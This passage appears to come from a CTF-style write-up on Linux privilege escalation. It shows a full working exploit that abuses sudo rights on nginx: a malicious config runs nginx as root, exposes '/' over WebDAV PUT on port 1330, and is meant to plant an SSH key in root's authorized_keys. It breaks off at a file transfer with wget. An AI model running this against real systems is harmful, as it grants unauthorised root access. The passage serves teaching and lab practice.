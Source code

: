 
With this, I searched for privilege escalations using `/usr/sbin/nginx`. 

We utilize ``ngx_http_dav_module`` to write our public SSH key into the root user's authorized_keys file. We start by creating the malicious NGINX configuration file `pwn.conf`:

```bash
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
    server {
        listen 1330;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

and our script to run the nginx config : 
```bash
cat << EOF> /tmp/pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
    server {
        listen 1330;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
EOF
sudo nginx -c /tmp/pwn.conf
```
Since I created it in my local, I used wget to transfer to target :
<div style="text-align: center;">